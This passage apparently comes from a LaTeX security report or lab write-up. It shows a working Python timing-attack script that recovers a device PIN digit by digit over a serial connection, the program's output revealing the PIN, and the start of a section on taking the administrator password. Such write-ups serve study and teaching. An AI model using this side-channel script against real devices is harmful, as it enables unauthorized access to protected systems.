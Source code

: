 \begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=python,
    caption={Timig attack on PIN},
    captionpos=b,
    label={fig:timing-attack}
  ]
  with serial.Serial('/dev/cu.usbserial-142210', 9600, timeout=1) as ser:

    # At the beginning send some random data to make sure connection works.
    for _ in range(2):
      ser.write(b'aaa')
      ser.read(28)

    prefix = b''

    attack_start = time.time()

    # For each iteration add suffixes, start with 000, then 00, and 0
    # {0..9}000, X{0..9}00, XY{0..9}0
    # where X, Y are found numbers.
    suffixes = (b'0' * size for size in range(3, -1, -1))
    for suffix in suffixes:
      times = {}

      for idx in map(str, range(10)):
        value = prefix + idx.encode('utf-8') + suffix
        print(value, end='\r', flush=True)
        ser.write(value)
        start = time.time()
        ser.read(28)
        # Log response time for each number.
        times[idx] = time.time() - start

      # Choose number for which the response time was highest.
      number = max(times.keys(), key=lambda e: times[e])

      # Add found number to previously found numbers.
      prefix += number.encode('utf-8')


  print(f'{prefix.decode()} found in {time.time() - attack_start:.4}s.')

  \end{lstlisting}
\end{minipage}


\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Output of timing attack program.},
    captionpos=b,
    label={fig:master-timing-result}
  ]
>>>  python3 timing_pin.py
5789 found in 2.833s.
  \end{lstlisting}
  \end{minipage}

\subsubsection{Retreiving administrator password}

Having PIN number and ,,control PIN'', next task was to hack the administrator password. Using system interface, we've used help command - \texttt{?} - to get controls.

